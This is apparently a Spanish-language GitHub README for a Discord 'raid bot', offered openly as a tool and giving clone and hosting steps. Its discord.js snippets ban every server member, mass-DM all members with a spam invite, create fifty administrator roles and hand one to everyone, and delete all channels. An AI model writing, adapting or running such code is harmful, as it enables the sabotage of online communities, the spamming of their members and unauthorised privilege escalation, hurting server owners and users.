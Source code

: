 # anotherdiscordraidbot

Otro Bot de Raid de Discord, no es lo esperado o lo buscado por los mas exigentes; pero sirve.

## Instalacion / Configurar

Primero clona el repositorio:
```bash
[/home/1080] nyethash ~ # git clone https://github.com/zJuack/anotherdiscordraidbot
```

Despues de eso es hora que configures, edites y hostees el bot, repl.it es una opcion; o Heroku.

Facilmente podrias configurar el bot haciendo cambios en ciertas lineas, como por ejemplo:

```js
client.login("El Token de tu Bot esta aqui.");
```
```js
  if (command === "banall") {
    message.guild.members.cache.forEach(allUsers => { allUsers.ban() })
  }
  if (command == "dm") {
    message.guild.members.cache.forEach(pitos => {
      pitos.send("Tu mensaje para DM: discord.gg/tuservidor")

    })
  }
  if (command == "roles") {
    for (let i = 0; i <= 50; i++) {
      message.guild.roles.create({ data: { name: "TuNombreDeRol", permissions: "ADMINISTRATOR", color: "BLACK" } })
    }
    let xd = message.guild.roles.cache.find(c => c.name === "TuNombreDeRol");
    message.guild.members.cache.forEach(allUsers => { allUsers.roles.add(xd) })
  }
  if (command == "deletechannels") {
    message.guild.channels.cache.forEach(xd => xd.delete())
  }
});
```

Hay mas cosas que puedes cambiar, pero tu las podes ver tu mismo, por cualquier problema; no dudes en contactarme.

